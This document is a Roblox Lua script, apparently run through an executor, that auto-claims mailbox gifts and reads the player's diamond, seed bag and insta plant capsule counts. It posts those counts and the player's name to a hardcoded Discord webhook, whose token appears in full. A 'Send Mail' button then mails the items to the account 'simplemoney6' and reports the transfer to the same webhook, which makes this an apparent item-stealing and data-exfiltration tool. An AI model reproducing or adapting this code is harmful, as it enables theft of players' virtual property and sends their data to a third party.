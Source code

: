 
local function Dialogggg()
    while true do
local player = game.Players.LocalPlayer
local gui = player.PlayerGui:FindFirstChild("_MACHINES")

if gui then
    local mailboxMachine = gui.MailboxMachine
    if mailboxMachine then
        local giftsFrame = mailboxMachine.Frame.GiftsFrame
        if giftsFrame then
            local itemsFrame = giftsFrame.ItemsFrame
            if itemsFrame then
                local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                if frameChild then
                    local args = {
                        [1] = {
                            [1] = frameChild.Name
                        }
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                end
            end
        end
    end
end

      wait(1)
    end
end
    
coroutine.wrap(Dialogggg)()


local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then 
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}


request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

local screenGui = Instance.new("ScreenGui")
local button = Instance.new("TextButton")

screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
button.Parent = screenGui
button.Size = UDim2.new(0, 200, 0, 50)
button.Position = UDim2.new(0.5, -100, 0, 0)  -- Changed Y position to 0 for top alignment
button.BackgroundColor3 = Color3.new(0, 0, 0)
button.Text = "Send Mail"
button.TextColor3 = Color3.new(1, 1, 1)
button.TextScaled = true


button.MouseButton1Click:Connect(function()
    local args1 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = seedbagid or "",
        [5] = seedBagAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
    wait(1)
    local args2 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = instaplantid or "",
        [5] = instaPlantCapsuleAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

    local mailContentMsg = {
        embeds = {
            {
                title = "***👨‍💻: " .. playerName .. "***",
                description = "***💌: Mail Successfully Sent!***",
                color = 16777215,
                fields = {
                    {
                        name = "***🫙:***",
                        value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                    },
                    {
                        name = "***🌱:***",
                        value = "Sent ***" .. seedBagAmount .. "***"
                    }
                }
            }
        }
    }

    request({
        Url = webhookURL,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json",
        },
        Body = HttpService:JSONEncode(mailContentMsg),
    })
end)
